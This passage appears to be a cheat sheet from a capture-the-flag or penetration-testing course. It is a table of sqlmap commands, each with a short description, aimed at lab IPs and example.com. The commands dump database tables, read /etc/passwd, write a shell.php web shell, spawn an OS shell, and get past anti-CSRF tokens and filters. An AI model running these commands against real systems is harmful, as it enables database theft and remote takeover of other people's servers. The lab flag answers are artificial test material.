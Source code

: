 | `sqlmap --list-tampers`                                                                                                                              | List all tamper scripts                                                                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                                                         | Check for DBA privileges                                                                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                                                 | Reading a local file                                                                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                                            | Write a local file                                                                                          |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                                                | Spawning an OS shell                                                                                        |
| `sqlmap -u http://94.237.59.206:40788/case5.php?id=1 --risk=3 --batch --tables --dump -T flag5 --no-cast`                                            | Detect and exploit (OR) SQLi vulnerability in GET parameter `id`                                            |
| `sqlmap -u "http://94.237.62.195:44922/case6.php?col=id" --risk=3 --prefix=') --batch --tables --dump -T flag6`                                      | Detect and exploit SQLi vulnerability in GET parameter `col` having non-standard boundaries                 |
| `sqlmap -u "94.237.62.195:44922/case7.php?id=1" --union-cols=6 --technique=U --batch --tables --dump -T flag7`                                       | Detect and exploit SQLi vulnerability in GET parameter `id` by usage of UNION query-based technique         |
| `sqlmap -u "94.237.62.195:44922/case1.php?id=1" --batch --tables --dump -T flag1`                                                                    | Detect and exploit SQLi vulnerability in GET parameter `id`                                                 |
| `sqlmap -u "http://94.237.56.76:41828/case1.php?id=1" --search -C style`                                                                             | What's the name of the column containing "style" in it's name?                                              |
| `sqlmap -u "http://94.237.56.76:41828/case1.php?id=1" --search -T pass`                                                                              | What's the name of the tables containing "pass" in the name?                                                |
| `sqlmap -u "http://94.237.56.76:41828/case1.php?id=1" --dump `                                                                                       | Dump everything                                                                                             |
| `sqlmap -u "http://94.237.56.76:41828/case8.php" --data="id=1&t0ken=nfm1rCi8j8XzPcJsYBujBitNfwKW2MgKfGaliGEXE" --csrf-token="t0ken" --dump -T flag8` | Detect and exploit SQLi vulnerability in POST parameter `id`, while taking care of the anti-CSRF protection |
| `sqlmap -u "http://94.237.48.48:57027/case9.php?id=1&uid=206095350" --randomize=uid --dump -T flag9`                                                 | Detect and exploit SQLi vulnerability in GET parameter `id`, while taking care of the unique `uid`          |
| `sqlmap -r req.txt --tamper=between --chunked --dump -T flag10`                                                                                      | Detect and exploit SQLi vulnerability in POST parameter `id`                                                |
| `sqlmap -u "94.237.48.48:57027/case11.php?id=1" --tamper=between -v 3 --dump -T flag11 --no-cast`                                                    | Detect and exploit SQLi vulnerability in GET parameter `id`                                                 |
| `sqlmap -r req.txt --tamper=between --chunked --dump -T final_flag`                                                                                  | Identified exploitable json `id` parameter with Burp. Saved request as req.txt                              |
|                                                                                                                                                      |                                                                                                             |

---
